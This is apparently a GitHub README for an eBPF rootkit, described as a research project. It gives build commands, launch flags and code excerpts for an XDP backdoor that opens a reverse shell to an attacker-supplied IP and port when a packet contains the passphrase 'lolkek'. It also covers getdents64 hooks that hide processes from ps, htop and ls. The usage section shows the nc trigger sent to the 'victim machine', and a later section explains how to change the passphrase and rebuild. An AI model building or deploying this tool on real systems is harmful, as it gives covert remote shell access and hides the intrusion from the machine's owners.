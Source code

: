 # eBPF-rootkit
This project was made for research and practice with eBPF

This repository contains an eBPF rootkit that combines 2 main functions:

* Backdoor for remote access - uses `XDP` (eXpress Data Path) to monitor network traffic and launch a reverse shell when detecting a specific pattern in packets.

* Process Hiding - uses eBPF programs attached to the `getdents64` system call to hide specific processes from `ps`, `htop`, `ls` etc.

The process hiding part is taken from the [bad-bpf repository](https://github.com/pathtofile/bad-bpf/), but the loader has been rewritten in Go.

## Build
### Dependencies
To build and run the project, you will need:

* Go (version 1.16+)
* Clang and LLVM (for compiling eBPF programs)
* Linux kernel header files
* Cilium eBPF library for Go

```bash
# Installing dependencies on Ubuntu/Debian:

sudo apt update  
sudo apt install -y clang llvm libbpf-dev linux-headers-$(uname -r)
# install bpftool
sudo apt install linux-tools-common linux-tools-generic linux-tools-$(uname -r)  
bpftool btf dump file /sys/kernel/btf/vmlinux format c > vmlinux.h
go get github.com/cilium/ebpf

# Building

git clone https://github.com/cotsom/eBPF-rootkit.git  
cd eBPF-rootkit
go generate
go build -o ebpf-rootkit
```

## Usage

Run with root privileges:

```bash
./ebpf-rootkit [options]
Launch Options:
-p <PID> - PID of the process to hide (default: PID of the program itself)
-t <PPID> - Parent PID, will only affect its child processes
-i <interface> - Network interface to attach the XDP program to (default: eth0)
```


To launch the reverse shell, send a TCP packet containing your passphrase followed by the IP address and port to connect to, for example:

```bash
nc 192.168.1.100 22 # connect to victim machine with backdoor to any open port

# send command to nc
lolkek 192.168.123.200 4444
```

![alt text](assets/poc.gif)

## Changing the Passphrase for the Reverse Shell
For now the passphrase that triggers the reverse shell is `lolkek`

**main.go:**
```go
dataStr := string(data)
if strings.Contains(dataStr, "lolkek") {
    log.Printf("XDP: Found 'lolkek' trigger in packet data: %q", dataStr)
    parts := strings.Fields(dataStr)

...
```

and the number of bytes received from tcp payload is equal to the number of characters sent for the backdoor. Now this number is equal to 27
```bash
lolkek 192.168.123.200 4444 #27 characters
```

**bpf.c:**
```C
//GET TCP DATA
unsigned char *tcpdata = (unsigned char *)tcp + tcp_header_bytes;

if ((void *)(tcpdata + 27) > data_end) { // <---
    return XDP_PASS;
}

// Reserve space in the ring buffer
void *ringbuf_space = bpf_ringbuf_reserve(&xdprb, tcp_header_bytes, 0);
if (!ringbuf_space) {
    return XDP_PASS;  // If reservation fails, skip processing
}

// Copy the TCP header bytes into the ring buffer
// Using a loop to ensure compliance with eBPF verifier
for (int i = 0; i < 27; i++) { // <---
    unsigned char byte = *((unsigned char *)tcpdata + i);
    ((unsigned char *)ringbuf_space)[i] = byte;
}
```

**To change the passphrase, replace the string `lolkek` with your own phrase. This phrase is used as a trigger to launch the reverse shell. And the number of bytes to be received.**

After changing the passphrase, you need to rebuild the project:

`go generate`

`go build -o ebpf-rootkit`